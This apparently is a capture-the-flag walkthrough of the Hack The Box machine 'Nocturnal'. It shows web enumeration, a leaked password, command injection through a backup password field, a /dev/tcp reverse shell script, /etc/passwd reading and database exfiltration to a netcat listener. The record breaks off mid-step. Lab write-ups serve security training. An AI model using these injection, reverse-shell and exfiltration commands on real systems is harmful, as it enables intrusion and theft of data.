Noctrunal
Recon
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ nmap -p- --min-rate 10000 -T4 $target 1> ports.txt && echo "All discovered open ports:" && cat ports.txt && nmap -sC -sV -p$(tail -n +6 ports.txt | head -n -2 | cut -d ' ' -f 1 | cut -d '/' -f 1 | sed -z 's/\n/,/g') $target | tee nmap.txt
All discovered open ports:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 13:29 CEST
Nmap scan report for 10.10.11.64
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 13:29 CEST
Nmap scan report for 10.10.11.64
Host is up (0.042s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
| 256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_ 256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
I got the version of the web server: nginx/1.18.0
We got a web: http://nocturnal.htb/
After adding it to the hosts file, I use whatweb to see which technologies uses:
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ whatweb http://nocturnal.htb
http://nocturnal.htb [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[support@nocturnal.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.64], Title[Welcome to Nocturnal], nginx[1.18.0]
Nothing new, other than the PHPSESSID cookie.
Also, looking at the source code I can confirm that it uses php
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ curl http://nocturnal.htb/login.php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Login</title>
<link rel="stylesheet" href="style.css">
</head>
<body>
<div class="container">
<h1>Login</h1>
<form method="post">
<input type="text" name="username" placeholder="Username" required>
<input type="password" name="password" placeholder="Password" required>
<button type="submit">Login</button>
</form>
<a href="register.php">Don't have an account? Register here</a>
</div>
</body>
</html>
Entering via web browser I create a user and log in.

It seems that this page is used to upload and store pdf, doc,... files.
Looking at the source code I see something interesting:
Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Dashboard</title>
<link rel="stylesheet" href="style.css">
</head>
<body>
<div class="container">
<h1>Welcome, test01</h1>
<h2>Upload File</h2>
<form action="" method="post" enctype="multipart/form-data">
<input type="file" name="fileToUpload" required>
<button type="submit">Upload File</button>
</form>
<h2>Your Files</h2>
<ul>
<li>
<a href="view.php?username=test01&file=test.pdf">
test.pdf </a>
<span>(Uploaded on 2025-04-27 11:50:25)</span>
</li>
</ul>
<a href="logout.php" class="logout">Logout</a>
</div>
</body>
</html>
This line:
<a href="view.php?username=test01&file=test.pdf">
The test.pdf file corresponds the test file I just uploaded, with my username. Maybe this means we can see other users's files by fuzzing?
This is what happens when the user and file is incorrect: The "file does not exists" message and no available files for download.

And this is what happens when the user is correct but not the file: The "file does not exists" message BUT displays all the users's files under available files:

How can I fuzze this? Filtering with the response size, because the correct response (incorrect file but correct user) has more information than the incorrect response, as it has the other user's files.
I also need the PHPSESSID cookie, because I can't access any user without first being logged in.
We can pass the cookie with the -H flag, which adds headers. I use burpsuite to see how the cookie is passed to the server.
POST /dashboard.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://nocturnal.htb/dashboard.php
Content-Type: multipart/form-data; boundary=---------------------------266523311133101992791206543356
Content-Length: 518
Origin: http://nocturnal.htb
Connection: keep-alive
Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
Upgrade-Insecure-Requests: 1
Priority: u=0, i
I got it, is Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
I finally use fuff for fuzzing the user, I don't use the response size filter right now, as I first want to know the file size of the incorrect user:
┌──(oriol㉿zero)-[~/htb/nocturnal/wordlist]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w usernames.txt -H 'Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp'
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
:: Wordlist : FUZZ: /home/oriol/htb/nocturnal/wordlist/usernames.txt
:: Header : Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
aarika [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 42ms]
abaca [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 45ms]
a1 [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
a [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
abaddon [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 46ms]
aaronaaronic [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 47ms]
The incorrect size is 2919, so a response size bigger than that should be a correct username.
After some testing I see that the file size 2985 is the sweet spot.
┌──(oriol㉿zero)-[~/htb/nocturnal/wordlist]
└─$ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf' -w usernames.txt -H 'Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp' -fs 2985
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf
:: Wordlist : FUZZ: /home/oriol/htb/nocturnal/wordlist/usernames.txt
:: Header : Cookie: PHPSESSID=k7b149mhb500qsuu08e22cgkpp
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 2985
________________________________________________
a [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 46ms]
abc [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 45ms]
akira [Status: 200, Size: 209972, Words: 3793, Lines: 129, Duration: 48ms]
amanda [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 42ms]
elo [Status: 200, Size: 3113, Words: 1177, Lines: 129, Duration: 41ms]
test [Status: 200, Size: 3879, Words: 1187, Lines: 129, Duration: 43ms]
tobias [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 43ms]
:: Progress: [81475/81475] :: Job [1/1] :: 934 req/sec :: Duration: [0:01:31] :: Errors: 0 ::
Attack
Gaining access
And we got a list of users: a, abc, akira, amanda, elo, test, tobias. I enter to this users one by one.
a, abc, tobias seem to be false positives akira, elo, test seem to be other palyers working on the machine amanda seems to be a legit user, having a privacy.odt file.
The .odt file contains this text: _Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.
Yours sincerely,
Nocturnal's IT team"
So we got the password for the user amanda. I log in to the web page with the credentials obtained and I see that the user amanda can go to the admin panel:

Here I can see all the .php files of the web and also create backups

On the dashboard.php file I see the connection to the database. Is a mysqli3, so if I can get the nocturnal_database that would be very good.
$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
By performing a backup I can download all the files, including the db, to my local computer (after putting a password for the backup):

┌──(oriol㉿zero)-[~/Downloads]
└─$ unzip backup_2025-04-27.zip
Archive: backup_2025-04-27.zip
[backup_2025-04-27.zip] admin.php password:
inflating: admin.php
creating: uploads/
inflating: uploads/privacy.odt
inflating: uploads/dummy.pdf
inflating: register.php
inflating: login.php
inflating: dashboard.php
inflating: index.php
inflating: view.php
inflating: logout.php
inflating: style.css
The database is not included on the backup...
At this point I think that we have to do something else on the admin panel, and after searching for a couple of minutes I see this on the admin.php file:
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " . > " . $logFile . " 2>&1 &";
...
$process = proc_open($command, $descriptor_spec, $pipes);
It creates the backup zip with a system command, this means that whatever we input on the password will be run on the system. I will use burpsuite to easly run commands and try

Seems it is working! I will try to do a reverse shell. Seems like doing it url-encoded doesn't work... Maybe because is too long(?)

I will create a script with the reverse shell on my local computer and spawn a python web server. Then I will download it and execute it on the server.
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ cat revshell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.63/3010 0>&1
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
And after some test, I see that the character in between is not %20 (space) is %09 which is the tabulator, maybe the spaces are blocked and it sill works.

It downloads the reverse shell correctly, and now I only have to execute it.

1And we got a reverse shell working!
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ nc -nvlp 3010
listening on [any] 3010 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.64] 40900
bash: cannot set terminal process group (846): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nocturnal:~/nocturnal.htb$
Obiously we still need to go to another user, as we are on www-data right now. I watch on the /etc/passwd file
www-data@nocturnal:~/nocturnal.htb$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
ispapps:x:1001:1002::/var/www/apps:/bin/sh
ispconfig:x:1002:1003::/usr/local/ispconfig:/bin/sh
smmta:x:115:120:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:116:121:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
_laurel:x:997:997::/var/log/laurel:/bin/false
I see the tobias user. Let's see on the mysqli database if there is the tobias user.
To pass the file I will start a netcat listener like always, but redirect the output on a file.
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ nc -nvlp 3011 > nocturnal_database.db
listening on [any] 3011 ...
On the server, I will cat the database file and redirect it on the /dev/tcp to input all the database information to the netcat listener, which redirects the information to a file.
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.10.14.63/3011
<t nocturnal_database.db > /dev/tcp/10.10.14.63/3011
And we have the database!
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ sqlite3 nocturnal_database.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite>
Yes, there is the tobias user:
